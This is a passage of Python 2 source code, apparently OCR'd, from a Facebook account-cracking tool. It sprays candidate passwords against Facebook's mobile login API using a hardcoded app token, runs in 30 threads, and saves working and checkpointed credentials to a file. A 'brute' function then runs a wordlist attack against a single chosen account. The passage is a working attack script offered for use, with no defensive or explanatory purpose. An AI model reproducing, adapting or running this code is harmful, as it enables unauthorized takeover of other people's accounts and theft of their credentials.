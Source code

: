 															cekpoint.append(user+pass6)
														else:
															pass7 = 'Pakistan'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass7 + ' 👽 ' + b['name']
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;36;40m[After24Hr] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass7 + ' 👽 ' + b['name']
																	cek = open("out/CP.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
		except:																		
			pass
		
	p = ThreadPool(30)
	p.map(main, id) 
	
	print '\033[1;31;40m[✓] Process Has Been Completed\033[1;97m....'
	print "\033[1;32;40m[+] Total OK/\033[1;97mCP \033[1;97m: \033[1;97m"+str(len(oks))+"\033[1;31;40m/\033[1;36;40m"+str(len(cekpoint))
	print '\033[1;34;40m[+] CP File Has Been Saved : save/cp.txt'
	print """
\033[1;31;40m ●════════════════════════◄►════════════════════════●
           """
	raw_input("\n\033[1;97m[\033[1;97mExit\033[1;97m]")
	super()

def brute():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\033[1;97m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(0.5)
        login()
    else:
        os.system('clear')
        print logo
        print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
        try:
            email = raw_input('\033[1;97m[+] \033[1;97mID\033[1;97m/\033[1;97mEmail \033[1;97mTarget \033[1;97m:\033[1;97m ')
            passw = raw_input('\033[1;97m[+] \033[1;97mWordlist \033[1;97mext(list.txt) \033[1;97m: \033[1;97m')
            total = open(passw, 'r')
            total = total.readlines()
            print '\033[1;31;40m ●════════════════════════◄►════════════════════════●'
            print '\033[1;97m[\033[1;97m\xe2\x9c\x93\033[1;97m] \033[1;97mTarget \033[1;97m:\033[1;97m ' + email
            print '\033[1;97m[+] \033[1;97mTotal\033[1;97m ' + str(len(total)) + ' \033[1;97mPassword'
            jalan('\033[1;97m[\xe2\x9c\xba] \033[1;97mPlease wait \033[1;97m...')
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\033[1;97m[\033[1;97m\xe2\x9c\xb8\033[1;97m] \033[1;97mTry \033[1;97m' + pw)